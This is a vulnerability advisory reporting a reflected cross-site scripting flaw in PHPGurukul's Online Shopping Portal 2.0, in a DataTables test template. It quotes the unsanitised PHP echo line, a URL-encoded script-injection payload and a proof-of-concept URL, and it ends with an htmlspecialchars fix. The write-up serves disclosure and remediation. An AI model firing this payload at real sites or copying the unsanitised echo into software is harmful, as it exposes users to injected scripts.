 # [XSS vulnerability] found in Online Shopping Portal 2.0 - (dom_data_two_headers.php)

Affected Project: **Online Shopping Portal**

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/shopping-portal-free-download/)

Version: 2.0

Updated: 06 June 2024

Vulnerable path/file: admin/assets/plugins/DataTables/media/unit_testing/templates/dom_data_two_headers.php

Injection parameter: `scripts`

<br />

Size: 30.5 MB

Sha256: 127e719bf4236a9140f146dd7a6ae54f2a9234b9e6f0aeda240e7a4905c6e73c

<br />

## Vulnerability Description:
The issue arises in the `$aScripts[$i]` variable that can be influenced by user input directly echoing the constructed `<script>` tag into the HTML output, including the user-controlled part within the src attribute without any sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
echo '<script type="text/javascript" language="javascript" src="../'.$aScripts[$i].'?rand='.rand().'"></script>'
```

<br />

## Injection Payload Tested:

We need to set the `scripts` to an encoded url payload to make it work:
```
%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Execution:

When the browser parses this, it executes the `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `dom_data_two_headers.php` looks like:

<br />

![dom_data_two_headers.php](https://i.postimg.cc/HLX1W4gX/1.png)

<br />

Then we can add our payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`:

```
http://localhost/shopping/admin/assets/plugins/DataTables/media/unit_testing/templates/dom_data_two_headers.php?scripts=%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

After submitting the url with the payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/qRrVNhJY/2.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
echo '<script type="text/javascript" language="javascript" src="../' . htmlspecialchars($aScripts[$i], ENT_QUOTES, 'UTF-8') . '?rand=' . rand() . '"></script>';
```

<br />

> One Click Can Change Everything: Be Secure.
